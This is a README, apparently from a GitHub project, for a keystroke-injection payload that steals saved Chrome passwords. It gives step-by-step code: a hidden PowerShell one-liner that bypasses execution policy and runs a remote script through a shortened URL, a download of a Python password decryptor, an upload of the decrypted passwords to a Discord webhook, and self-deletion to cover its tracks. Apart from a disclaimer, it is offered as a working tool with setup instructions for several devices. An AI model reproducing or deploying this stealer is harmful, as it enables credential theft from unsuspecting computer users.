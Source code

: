 THIS SCRIPT IS ONLY INTENDED FOR EDUCATIONAL PURPOSES
(decrypt script made by ohyicong)

# What it does

This payload downloads and executes a powershell script that downloads a python chrome password decryptor, and then sends the decrypted passwords over discord using webhooks.

# Dependencies:
- Windows
- Python

# How to use

## Pico-Ducky

If you have a [pico-ducky](https://github.com/dbisu/pico-ducky) which is what this payload was originally built for you just download the ``password-stealer-pico.dd`` and place it in the root of your pico directory. If you have a pico-ducky without wifi you need to rename it to ``payload.dd`` ``payload2.dd`` ``payload3.dd`` or ``payload4.dd`` read more here [here](https://github.com/dbisu/pico-ducky).

## Evilcrow cable-pro

Copy the contents of the ``password-stealer-evilcrow.h`` to your ``payload.h`` file on your [EvilCrow Cable-pro](https://github.com/joelsernamoreno/EvilCrowCable-Pro/tree/main)

## P4wnP1 A.L.O.A

I am working on a version for HID script

## Any other ducky script compatible tools

I havent tested any others but if you do please open up an issue and tell me how it went

# How it Works:

(This code is very unoptimized, but i havent bothered fixing it)

## The rubber ducky script
When the grabber.dd runs it opens a run dialoge and enters this script.

```powershell
powershell -W h -NonI -NoP -Ep bypass -c "$dc = '<your discord webhook here>'; irm https://shorturl.at/bMQ15 | iex
```
This line opens a hidden windows with ``-W h`` a non interactive windows with ``-NonI`` no user profiles with ``NoP`` and bypasses the anti script execution policy using ``-Ep bypass``
Then it sets the ``$dc`` variable to your webhook.
And last but not least it downloads the starter.ps1 script and executes it. The download link is shortened to fit inside the run dialoge. (I want to host my own site in the future where i can have my own directly short links)

## The powershell script

The powershell script is used as sort of a base of operations, it downlaods the python password decryptor and sends the file over discord. Heres how it works:

### Extracting the passwords:

To extract the passwords saved in chrome we use a python script made by ohyicong, if you are interested in how it works you can read his [medium article](https://ohyicong.medium.com/how-to-hack-chrome-password-with-python-1bedc167be3d)

First we tell powershell where python is located on the system so we can use it to execute the script:
```powershell
$filePath = "$env:LocalAppData\Programs\Python\Python311\python.exe"
```
Then we install the needed python libraries, if the user already have the libraries pip will automaticly cancel the installation and the script will proceed wither way.
```powershell
py -m pip install pycryptodomex pywin32
```
Then we download the python script the same way the rubber ducky script downloaded the ```starter.ps1``` scrip:
```powershell
Invoke-WebRequest -Uri https://github.com/simen64/Pico-HID-Scripts/blob/main/chrome-password-stealer/decrypt_chrome_password.py -OutFile $Env:USERPROFILE\Documents\stealer.py
```
Now we run the python script using this line. The ```&``` tells powershell to execute a command. The ```$env``` variable is where python is located and the ```$Env``` variable is where the python script is saved from the previous step
```powershell
& $env:LocalAppData\Programs\Python\Python311\python.exe $Env:USERPROFILE\Documents\stealer.py
```

### Sending the passwords over Discord

This part of the code is what takes the decrypted passwords file and sends it to you over discord.

First we define the user thats logged into the computer, this will be used to acces folders like ```C:\Users\User\Documents\```
```powershell
$user = $env:USERNAME
```
Then we use the now defined &user variable to define where the file ```decrypted_password.csv``` file is stored, this file contains the passwords that the python script previosly extracted.
```powershell
$file = "C:\Users\$user\Documents\decrypted_password.csv"
```
This variable plains and simple tells discord what message to deliver the file with
```powershell
$message = "Extracted passwords:"
```
This line of code is used to generate a unique identifier for the message each time the script is ran
```powershell
$boundary = [System.Guid]::NewGuid().ToString()
```
Here we read the ```decrypted_password.csv``` file from the previously defined ```$file``` variable and saves it into a variable called ```$fileContent```
```powershell
$fileContent = [System.IO.File]::ReadAllBytes($file)
```
This code takes all of the now gathered information and puts it into an array called ```$bodyLines``` that is joined to one string in a variable called ```body```
```powershell
$bodyLines = @(
    "--$boundary",
    "Content-Disposition: form-data; name=`"content`"",
    "",
    $message,
    "--$boundary",
    "Content-Disposition: form-data; name=`"file`"; filename=`"file.txt`"",
    "Content-Type: application/octet-stream",
    "",
    [System.Text.Encoding]::Default.GetString($fileContent),
    "--$boundary--"
)

$body = $bodyLines -join "`r`n"
```
After that is gathered we have to define the http headers for the webhook, we set the header to ```multipart/form-data``` so it know that we are sending a file. Then we give the request or unique identifier with the variable ```$boundary``` that we generated earlier.
```powershell
$headers = @{
    "Content-Type" = "multipart/form-data; boundary=$boundary"
}
```
Last but not least we invoke a web request to our webhook with all of our information. This includes setting the request to POST, including the headers and the body.
```powershell
Invoke-RestMethod -Uri $webhookUrl -Method Post -Headers $headers -Body $body
```
And after the script is done it self destructs and deletes all the files downloaded, ```$MyInvocation.MyCommand.Source``` is a built in powershell variable that defines the script that its being called from.
```powershell
Remove-Item stealer.py -Force
Remove-item decrypted_password.csv -Force
Remove-Item -Path $MyInvocation.MyCommand.Source
```
